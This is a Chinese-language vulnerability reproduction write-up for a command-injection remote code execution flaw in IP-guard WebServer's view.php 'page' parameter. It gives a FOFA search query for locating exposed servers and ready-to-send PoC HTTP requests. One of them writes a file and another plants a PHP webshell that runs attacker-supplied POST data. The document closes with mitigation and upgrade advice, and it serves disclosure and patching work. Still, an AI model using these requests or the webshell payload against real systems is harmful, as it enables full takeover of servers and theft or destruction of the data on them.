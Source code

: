 
# IP-guard WebServer RCE 漏洞复现

### 0x01 产品简介

   IP-guard 是由溢信科技股份[有限公司](https://so.csdn.net/so/search?q=%E6%9C%89%E9%99%90%E5%85%AC%E5%8F%B8&spm=1001.2101.3001.7020)开发的一款终端安全管理软件，旨在帮助企业保护终端设备安全、数据安全、管理网络使用和简化 IT 系统管理。

### 0x02 漏洞概述

 **漏洞成因**  
    在 Web 应用程序的实现中，参数的处理和验证是确保应用安全的关键环节。然而，当参数处理不当时，就会出现安全漏洞，给攻击者留下可利用的空间。在此次 IP-guard 的漏洞中，关键问题出现在对某个参数的处理上。该参数原本用于指定要查看的文档页面。但由于未对输入进行适当的过滤和限制，攻击者能够通过命令注入的方式，利用该参数在服务器上执行任意命令。  
**利用特征**  
   针对这个漏洞，从流量层面的利用特征表现在不寻常的 HTTP GET 请求中。在正常情况下，这个存在漏洞的参数应该只包含数字或预定义格式的数据，用于指定文档的特定页面。然而在攻击流量中，该参数的值包含了操作系统命令，这些命令通常以特殊字符（如管道符 ||）开始，后跟可执行的系统命令。  
**漏洞影响**  
   该漏洞的成功利用允许攻击者在服务器上远程执行命令，导致服务器完全被接管。同时，攻击者不仅可以利用漏洞获取对服务器的控制权，进而还可能访问或删除敏感数据，植入恶意软件，甚至使用服务器作为发起进一步攻击的跳板。

### 0x03 影响范围

 IP-guard < 4.81.0307.0

### 0x04 复现环境

FOFA："IP-guard" && icon\_hash="2030860561"

![](assets/1699929298-08c0979b657c4934ef49ba1179b54b4f.png)

### 0x05 漏洞复现

PoC

```cobol
GET /ipg/static/appr/lib/flexpaper/php/view.php?doc=1.jpg&format=swf&isSplit=true&page=||echo+123456+>1.txt HTTP/1.1 HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

写文件 

![](assets/1699929298-30cd4130ee8976d499479c3b665cee08.png)

验证 

```cobol
GET /ipg/static/appr/lib/flexpaper/php/1.txt HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

![](assets/1699929298-67248e2398f571715e566d8d01d9b78a.png) **漏洞利用**

 写 WebShell

```cobol
GET /ipg/static/appr/lib/flexpaper/php/view.php?doc=1.jpg&format=swf&isSplit=true&page=||echo+^<?php+@mb_eregi_replace('.*',$_POST['a'],'','ee');?^>+>1.php HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

![](assets/1699929298-7bcf9dd988a55c712f274570192171ce.png)

验证

![](assets/1699929298-60b3e4d7c34b28f7c632074e7b3a8fa2.png)

### ![](assets/1699929298-6cc5594e236d28344b59d5b06fea4d94.png) 0x06 修复建议

**临时缓解方案**  
    配置入侵检测系统（IDS）和入侵防御系统（IPS）以及 Web 应用防火墙（WAF），以识别和阻止包含这类特征的请求，从而保护系统免受此类远程命令执行攻击的影响；同时为了避免攻击者绕过安全设备实施攻击，建议尽快修复漏洞。  
   如非必要，不要将 IP-guard 放置在公网上。或通过网络 ACL 策略限制访问来源，例如只允许来自特定 IP 地址或地址段的访问请求。  
**升级修复方案**  
   官方已发布新版本修复漏洞，建议尽快访问官网（https://www.ip-guard.net/）或联系官方售后支持获取版本升级安装包或补丁，升级至 4.81.0307.0 版本及以上
